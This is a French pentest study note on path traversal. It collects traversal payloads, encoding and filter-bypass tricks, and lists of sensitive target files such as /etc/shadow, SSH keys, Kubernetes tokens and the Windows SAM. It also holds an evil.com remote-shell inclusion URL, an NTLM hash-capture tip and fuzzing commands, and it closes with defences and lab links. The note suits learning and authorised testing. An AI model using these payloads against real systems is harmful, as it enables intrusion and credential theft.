

# Path Traversal (Directory Traversal)

> [!info] **En 1 phrase**
> Path Traversal = **lire un fichier hors de la racine web** en manipulant le chemin passé
> par un paramètre (`../../../etc/passwd`) — lecture seule, sans exécution (contrairement à LFI).

---

## Concept



> [!info] **La différence clé avec LFI**
> Le **Path Traversal** exploite un mécanisme de **lecture** de fichier → on lit `/etc/passwd`.
> La **File Inclusion** exécute un `include()` → c'est ce qui permet la **RCE**. Un point
> d'inclusion = un plus gros potentiel. Voir [[LFI - Local File Inclusion| LFI]] et [[RFI - Remote File Inclusion| RFI]].

---

## Traversal de base

Payload de référence (fichiers de test : `/etc/passwd`, `C:\Windows\win.ini`) :

```url
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../etc/passwd
http://example.com/index.php?page=..\..\..\..\windows\win.ini
http://example.com/index.php?page=....//....//etc/passwd
```

### Encodages des caractères dangereux

| Caractère | URL | Double URL | Unicode | Overlong UTF-8 |
|---|---|---|---|---|
| `.` | `%2e` | `%252e` | `%u002e` | `%c0%2e`, `%e0%40%ae`, `%c0%ae` |
| `/` | `%2f` | `%252f` | `%u2215` | `%c0%af`, `%e0%80%af`, `%c0%2f` |
| `\` | `%5c` | `%255c` | `%u2216` | `%c0%5c`, `%c0%80%5c` |

### Null Byte (`%00`)

> [!warning] Ne marche que sur **PHP < 5.3.4**. Le caractère null termine la chaîne C → on coupe le suffixe ajouté par l'app (ex: `.php`).

```url
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=../../../etc/passwd%2500
```

**Exemple** : Joomla! Component Web TV 1.0 — CVE-2010-1470

```ps1
{{BaseURL}}/index.php?option=com_webtv&controller=../../../../../../../../../../etc/passwd%00
```

### Double Encoding

```url
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### UTF-8 Encoding

```url
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Unicode Encoding (chemin mangé par certains parseurs / WAF)

```url
http://example.com/index.php?page=%uff0e%uff0e%u2215etc%u2215passwd
http://example.com/index.php?page=%uff0e%uff0e%u2216etc%u2216passwd
```

### Path Truncation

> Sur la plupart des installations PHP, un nom de fichier de plus de **4096 octets** est tronqué
> → tout ce qui suit le chemin valide est jeté, y compris l'extension forcée.

```url
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE]
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

### Filter Bypass (WAF qui supprime `../` ou `..`)

```url
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=..././..././..././etc/passwd        # mangled path
http://example.com/index.php?page=...\.\...\.\...\.\etc\passwd
http://example.com/index.php?page=/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

> [!tip] **WAF `str_replace("../","")` non récursif**
> `....//` → suppression de `../` → il reste `../` → le traversal passe. Dupliquer les motifs
> quand le filtre est appliqué **une seule fois** (non récursif).

---

## Cas Windows

> La cible Windows utilise des **backslashes** et des fichiers spécifiques.
> `win.ini` et `license.rtf` existent partout → parfaits pour un **proof of concept**.

```url
http://target/index.php?page=..\..\..\..\windows\win.ini
http://target/index.php?page=..\..\..\..\windows\system32\license.rtf
http://target/index.php?page=C:\Windows\win.ini
http://target/index.php?page=..\..\..\..\windows\system32\config\sam
http://target/index.php?page=..\..\..\..\windows\repair\sam
http://target/index.php?page=..\..\..\..\windows\repair\system
```

Fichiers Windows intéressants :

```powershell
c:/windows/win.ini
c:/windows/system32/license.rtf
c:/windows/repair/sam
c:/windows/repair/system
c:/windows/system32/config/sam
c:/windows/system32/config/system
c:/inetpub/wwwroot/web.config
c:/inetpub/wwwroot/global.asa
c:/inetpub/logs/logfiles
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf / c:/sysprep.xml
c:/unattend.xml / c:/unattended.xml / c:/unattended.txt
c:/system volume information/wpsettings.dat
```

Double encodage (Spring MVC — CVE-2018-1271) :

```ps1
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```

> [!tip] **UNC Share** : injecter un partage `\\localhost\c$\windows\win.ini` peut forcer le
> serveur à **s'authentifier** sur notre partage → capture de hashes **NTLM** (relay/offline).

---

## Fichiers utiles (Linux)

### OS & infos

```ps1
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/etc/apache2/apache2.conf
/etc/nginx/nginx.conf
```

### Processus (procfs)

```ps1
/proc/self/environ
/proc/self/cmdline
/proc/self/cwd/index.php        # dossier de travail courant = docroot !
/proc/self/cwd/main.py
/proc/[PID]/fd/[N]              # 1er nb = PID, 2e = descripteur
/proc/version
/proc/mounts
/proc/sched_debug
```

### Réseau

```ps1
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
```

### Indexation & historique

```ps1
/var/lib/mlocate/mlocate.db
/var/lib/plocate/plocate.db
/var/lib/mlocate.db
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/root/.ssh/id_rsa
```

### Kubernetes (pod)

```ps1
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/ca.crt
/var/run/secrets/kubernetes.io/serviceaccount
```

---

## Outils & Fuzzing

| Outil | Usage |
|---|---|
| [dotdotpwn](https://github.com/wireghoul/dotdotpwn) | fuzzer directory traversal |
| [Panoptic](https://github.com/lightos/Panoptic) | extraction de logs & configs via path traversal |
| [LFImap](https://github.com/hansmach1ne/LFImap) | découverte + exploitation LFI |
| [Kadimus](https://github.com/P0cL4bs/Kadimus) | check + exploit LFI (archivé) |
| [LFISuite](https://github.com/D35m0nd142/LFISuite) | scanner LFI auto + reverse shell |
| [fimap](https://github.com/kurobeats/fimap) | find/prepare/audit/exploit LFI & RFI |

```bash
# dotdotpwn (fuzzer traversal)
perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b

# ffuf avec wordlist LFI (seclists)
ffuf -u 'http://target/index.php?page=FUZZ' \
  -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs <taille>

# wfuzz
wfuzz -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
  -u 'http://target/index.php?page=FUZZ' --hc 404
```

### IIS Short Name (Windows)

```ps1
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
shortscan http://example.org/
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Supprimer les paramètres de fichiers** | Ne jamais exposer `page=`, `file=`, `template=` depuis l'input ; utiliser des **ID** (index/entier) mappés côté serveur |
| **Allow-list** | N'accepter que des noms de fichiers **connus**, jamais de chemin utilisateur |
| **Canonicalisation** | `realpath()` + vérifier que le résultat **commence par** le dossier autorisé ; rejeter `..` |
| **Moindre privilège** | L'utilisateur web ne doit **pas** pouvoir lire `/etc/shadow`, les logs, `.env` |
| **chroot / conteneur** | Isoler la racine accessible du serveur web |
| **Surveillance** | Logs des patterns `../`, `%2e%2e`, `etc/passwd` dans les requêtes |

## Tips & Pièges

> [!warning] **Connaître le chemin exact**
> Si l'app ajoute un **préfixe** (`pages/`) ou un **suffixe** (`.php`), `../../../etc/passwd` échoue.
> Il faut alors : null byte (PHP < 5.3.4), path truncation, ou un **chemin absolu** (`/etc/passwd`).
> Sans connaissance du chemin, **fuzzer** (`ffuf`, `dotdotpwn`) ou lire les messages d'erreur.

> [!tip] **Ne pas trop remonter**
> Un seul `../` de trop et la lecture échoue silencieusement. Tester plusieurs profondeurs
> (3, 5, 7...) — beaucoup de frameworks ont un docroot fixe (`../../../../` est souvent suffisant).

> [!tip] **Traversal ≠ Inclusion**
> Un path traversal lit un fichier **brut** ; une inclusion l'**exécute**. Si le point
> d'entrée est un `include()`/`require()` (PHP), basculer sur [[LFI - Local File Inclusion| LFI]] pour viser la **RCE**.

---

## Labs

- PortSwigger — File path traversal : https://portswigger.net/web-security/all-labs#file-path-traversal
- Root-Me — LFI Double encoding : https://www.root-me.org/

---

> [!info] **Sources**
> - [PayloadsAllTheThings — Directory & Path Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20and%20Path%20Traversal/README.md)

**Liens :** [[LFI et RFI| Hub LFI/RFI]] · [[LFI - Local File Inclusion| LFI]] · [[RFI - Remote File Inclusion| RFI]] · [[Injection SQL| SQLi]] · [[SSRF| SSRF]] · [[03 - Exploitation Web| Exploitation Web]] · [[Bibliothèque technique| Index]]
